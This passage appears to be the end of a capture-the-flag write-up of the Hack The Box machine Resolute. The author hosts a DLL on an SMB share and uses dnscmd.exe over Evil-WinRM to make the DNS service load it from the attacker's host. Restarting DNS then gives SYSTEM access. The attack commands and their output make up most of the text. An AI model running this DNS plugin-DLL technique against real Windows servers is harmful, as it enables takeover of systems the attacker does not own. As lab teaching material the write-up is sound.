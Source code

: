 Next I'll startup an SMB server:

```text
┌──(ryan㉿kali)-[~/HTB/Resolute]
└─$ impacket-smbserver ryan .
```

From here on the target I can run:

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.72\ryan\shell.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1316
        FLAGS              :
```

I can confirm the file was downloaded from the SMB share, and I can now access the final root.txt flag as nt authority\ system:

![root_flag.png](../assets/resolute_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------------
